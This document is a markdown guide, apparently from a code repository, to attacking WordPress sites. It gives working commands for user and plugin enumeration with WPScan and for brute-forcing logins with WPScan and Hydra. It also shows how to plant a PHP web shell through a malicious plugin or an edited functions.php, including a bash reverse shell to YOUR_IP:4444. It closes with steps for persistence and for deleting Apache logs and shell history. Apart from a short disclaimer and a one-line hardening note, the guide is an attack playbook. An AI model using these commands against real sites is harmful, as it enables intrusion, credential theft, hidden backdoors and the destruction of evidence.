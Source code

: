 # WordPress Exploitation Guide

## Introduction
WordPress is one of the most widely used CMS platforms, making it a common target for security testing. This guide covers **enumeration, vulnerability scanning, and exploitation techniques** using **WPScan** and other tools.

**Warning:** This guide is for educational and authorized security testing only. Unauthorized access is illegal.

---

## Installing WPScan
WPScan is a WordPress security scanner used for **enumerating users, plugins, themes, and vulnerabilities**.

### Install WPScan on Linux
```bash
sudo apt update && sudo apt install wpscan -y
```
Or install using Ruby:
```bash
gem install wpscan
```
Verify installation:
```bash
wpscan --help
```

---

## Enumerating WordPress Information
### Detect WordPress Version
```bash
wpscan --url http://target.com --rua
```
- **`--rua`** → Random user-agent to avoid detection.

### Enumerate WordPress Users
```bash
wpscan --url http://target.com -e u
```
- **`-e u`** → Enumerate users (useful for brute-force attacks).

### Enumerate Installed Plugins
```bash
wpscan --url http://target.com -e p
```
- **`-e p`** → Enumerate plugins (check for vulnerable versions).

### Enumerate Themes
```bash
wpscan --url http://target.com -e t
```
- **`-e t`** → Enumerate themes.

### Full Enumeration Scan
```bash
wpscan --url http://target.com -e u,p,t --api-token YOUR_API_TOKEN
```
- **Using an API token** enables checking against WPScan’s vulnerability database.

---

## Brute-Forcing WordPress Logins
### Using WPScan for Brute-Force
```bash
wpscan --url http://target.com -U users.txt -P passwords.txt --max-threads 10
```
- **`-U users.txt`** → Uses a list of usernames.
- **`-P passwords.txt`** → Uses a password list.
- **`--max-threads 10`** → Uses 10 concurrent threads for speed.

### Using Hydra for Brute-Force
```bash
hydra -L users.txt -P passwords.txt http-post-form \
'wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In:F=incorrect'
```
- **`-L users.txt`** → Username list.
- **`-P passwords.txt`** → Password list.
- **Customizes login request parameters for WordPress.**

---

## Exploiting Vulnerabilities
### Checking for Known Vulnerabilities
Use WPScan to check for outdated versions and vulnerabilities:
```bash
wpscan --url http://target.com --api-token YOUR_API_TOKEN
```
- Checks themes, plugins, and core version against vulnerability database.

### Searching Exploit-DB for WordPress Exploits
```bash
searchsploit wordpress
```
- Returns available exploits for WordPress and its plugins.

### Manually Checking for Exposed Files
```bash
curl -s http://target.com/wp-config.php~
curl -s http://target.com/.git/
```
- Some sites leave **backup files** and `.git` folders exposed.

---

## Uploading a Malicious Plugin or Theme
If admin credentials are obtained, a backdoor can be uploaded using a **malicious plugin**.

### Uploading a Web Shell as a Plugin
1. Create a zip file with a PHP shell inside `/wp-content/plugins/`.
2. Upload it via the WordPress Admin Panel (`Appearance > Plugins > Add New`).
3. Activate the plugin to execute the payload.

### Modifying an Existing Theme
1. Edit `functions.php` inside an installed theme.
2. Add a PHP web shell:
```php
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/YOUR_IP/4444 0>&1'"); ?>
```
3. Access the theme file in a browser to trigger the shell.

---

## Post-Exploitation Steps
### Maintaining Access
- **Create a new admin user** via SQL injection or shell access.
- **Modify the wp-config.php** to include persistent backdoors.
- **Schedule reverse shells** via cron jobs.

### Covering Tracks
- Delete logs: `rm -rf /var/log/apache2/*`
- Clear history: `history -c`

---

## Conclusion
WordPress security testing involves **enumeration, brute-force attacks, vulnerability exploitation, and post-exploitation persistence**. Proper defenses include **hardened login credentials, disabling unused plugins, and updating regularly**.

Test ethically and secure your WordPress sites properly.

